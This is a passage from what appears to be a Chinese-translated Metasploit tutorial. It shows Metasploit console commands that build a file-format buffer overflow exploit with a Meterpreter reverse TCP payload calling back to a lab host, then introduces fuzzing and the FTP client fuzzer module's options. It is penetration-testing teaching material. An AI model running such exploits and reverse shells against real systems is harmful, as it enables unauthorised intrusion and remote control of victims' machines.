 ## 它是如何工作的...

下一个和最后的任务将是检查我们的模块是否正常运行。到目前为止，我们已经与模块一起工作了很多，所以这一步将很容易。我们将遵循迄今为止我们所使用的相同过程：

```
msf > use exploit/windows/fileformat/galan_fileformat_bof
msf exploit(galan_fileformat_bof) > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(galan_fileformat_bof) > set LHOST 192.168.56.101
msf exploit(galan_fileformat_bof) > exploit 
```

一旦传递了利用命令，模块将执行并创建一个文件，可以用来在目标机器上引起溢出。

这完成了我们的模块创建和执行过程。您可能已经看到，该过程很简单。真正的努力在于将利用脚本正确转换为框架模块。您可以根据需要调试或修改任何现有模块。您还可以将任何新创建的模块提交给 Metasploit 社区，以帮助其他人从中受益。

# 使用 Metasploit 进行模糊测试

模糊测试或模糊是一种软件测试技术，它包括使用随机数据注入来查找实现错误。模糊脚本生成格式不正确的数据，并将其传递给特定的目标实体，以验证其溢出容量。Metasploit 提供了几个模糊模块，这些模块在利用开发中可能会有所帮助。让我们更多地了解一下模糊测试的基础知识，以及如何使用 Metasploit 模块作为潜在的模糊器。

## 准备就绪

在我们跳转到 Metasploit 模糊器模块之前，让我们简要概述一下模糊测试及其类型。

模糊测试被视为一种黑盒测试技术，用于测试软件的最大溢出容量。模糊测试被积极用于查找应用程序中的错误。

模糊器可用于测试软件、协议和文件格式。模糊器自动化了数据生成和注入的过程。我们可以控制要注入的数据或数据包的大小。

模糊器将尝试对攻击进行组合：

+   数字（有符号/无符号整数，浮点数等）

+   字符（URL 和命令行输入）

+   元数据：用户输入文本（`id3`标签）

+   纯二进制序列

根据我们所针对的应用程序或协议的类型，我们可以设置我们的模糊器以生成数据/数据包来测试其溢出。Metasploit 包含几个模糊器模块，可用于对应用程序和协议进行黑盒测试。这些模块可以位于`modules/auxiliary/fuzzers`。让我们分析这些模块的实现。

## 如何做…

让我们尝试使用基于协议的模糊器模块。Metasploit 有一个名为`client_ftp.rb`的 FTP 模块，它充当 FTP 服务器并向 FTP 客户端发送响应：

```
msf > use auxiliary/fuzzers/ftp/client_ftp
msf auxiliary(client_ftp) > show options
Module options:
Name Current Setting Required Description
---- --------------- -------- -----------
CYCLIC true yes Use Cyclic pattern instead..
ENDSIZE 200000 yes Max Fuzzing string size.
ERROR false yes Reply with error codes only
EXTRALINE true yes Add extra CRLF's in..
FUZZCMDS LIST.. yes Comma separated list..
RESET true yes Reset fuzzing values after..
SRVHOST 0.0.0.0 yes The local host to listen on.
SRVPORT 21 yes The local port to listen on.
SSL false no Negotiate SSL for incoming..
SSLVersion SSL3 no Specify the version of SSL..
STARTSIZE 1000 yes Fuzzing string startsize.
STEPSIZE 1000 yes Increment fuzzing string.. 
```
